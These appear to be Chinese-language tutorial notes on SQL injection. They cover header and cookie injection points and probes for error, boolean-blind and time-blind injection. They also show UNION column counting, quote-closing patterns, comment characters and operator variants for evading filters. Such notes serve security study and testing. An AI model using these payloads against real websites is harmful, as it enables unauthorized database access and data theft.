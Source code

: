 很明显的这个接口，页面url，输入框的传参参数是进入了数据库的。或http数据包中数据参数是进入了数据库的。
```
**Header注入**
User Agent 中文名为用户代理，简称 UA，它是一个特殊字符串头，使得服务器能够识别 客户使用的操作系统及版本、CPU 类型、浏览器及版本、浏览器渲染引擎、浏览器语言、 浏览器插件等。
有些网站为了统计来访为手机还是PC，会存入数据库。
**Cookie注入**
一般是因为后台程序，读取了cookie中的数据，并带入到数据库中执行了
**X-Forwarded-For**
是客户端通过HTTP代理或者负载均衡器连接到web服务端获取源IP地址的一个标准（通常一些网站的防注入功能会记录请求端真实IP地址并写入数据库或某文件，通过修改XXF 头可以实现伪造IP）
**Referer**
当浏览器向web服务器发送请求的时候，一般会带上 Referer，告诉服务器该网页是从哪个页面链接过来的，服务器因此可以获得一些信息用 于处理
Host
有些服务器无论请求什么Host，都有一个默认的Host站点响应时。
```

## **测试是否有注入**
检测报错注入:
```
加\ 转义'
?id=1\    有原生报错回显

加'
?id=1' 有原生报错回显，则存在报错注入，且为 ' 闭合 或 ')闭合。

加"
?id=1"  有原生报错回显，且为 " 闭合 或 ")闭合。

?id = 1 and 1=2 有原生报错回显。
```

检测布尔盲注：
```
?id = 1 and 1=2  报错不显示正常数据，或无原生报错回显。


?id=1' and 1=1 --+  不报错
?id=1" and 1=1 #  不报错
```
实际中少用1=1，防止waf：<https://xz.aliyun.com/t/8020?time__1311=n4%2BxuDgDBAeDqrgDlroGkzD8CDkYeDce4YupD&alichlgref=https%3A%2F%2Fcn.bing.com%2F>

检测时间盲注：
```
?id=1 and sleep(3) 三秒才返回。
```

检测联合注入：
有报错注入，有布尔注入，也可能有联合注入。
有回显，寻找注入点，判断闭合方式，判断列数，进行函数执行回显。
测试当前表的字段数
```
?id =1 ' order by 5 --+  //若到5报错，则此表有4个字段

?id = -1 ' union select 1,2,3,4 --+
?id = -1 union select 1,2,3,4
前报错，后替换回显1,2,3,4
```

^
## **闭合处理**
闭合的原理：
在网站当中存在用户可控制参数，又没有对这个进行严格过滤，导致用户可以用过同样的符号去结束前面的字符内容，执行后面的语句

常见的闭合方式：
* 数字类型(无闭合)
* 单引号 ’
* 双引号 ”
* 括号 ）
* 组合方式 ‘)  ")   '))   "))

闭合后需要用到的注释符去掉后面：
```
--+ --空格
#  单行注释,中间用 %23
多行还是用and 'a' = 'a
```




^
## **注入类型判断**
### 联合查询
```
页面有回显，可以通过联合查询获取数据
常见于select。

select * from sql_insertion where id =1  order by view_time limit 0,1;
A  B  from sql_insertion where id =C  order by D limit 0,E;
A B可以手工注入
C可以常规注入
D难注入
E难注入
```

### 报错注入
```
页面无直接回显，但是能回显报错信息，可以通过报错函数获取回显数据。
常见于select,insert,delete,update。
```

### 布尔盲注
```
sql错误报错不回显或不回显原生报错信息，可以通过布尔判断，分别sql语句有没有成功，从对数据库进行猜测
常见于select。
```
### 时间盲注
```
sql错误报错不回显或不回显原生报错信息，可以通过页面刷新时间，判断sql语句有没有成功，从对数据库进行猜测
常见于select,insert,delete,update。
```

^
## **过滤和逻辑运算符选择**
```
id = 1 and 1
id = 1 && 1
id = 1 or 1
id = 1 || 1
id=1^1^1
id=1|1
id=1&1
```
